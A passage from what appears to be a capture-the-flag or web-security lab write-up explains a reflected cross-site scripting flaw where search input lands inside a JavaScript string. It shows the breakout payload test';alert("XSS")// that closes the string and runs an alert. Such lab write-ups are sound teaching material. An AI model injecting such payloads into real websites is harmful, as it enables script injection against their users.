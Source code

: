 ![test](./attachments/Chall8/testing1.png)

As we can see, **our input are placed directly inside the JavaScript line**:
```js
var searchTerm = '<INPUT>';
```

So, the plan here is to try **popup an alert using JavaScript alert()**. But we must need to **escape the <code>var searchTerm</code>**:
```js
var searchTerm = 'test';alert("XSS")//'
```

![alert](./attachments/Chall8/alert1.png)
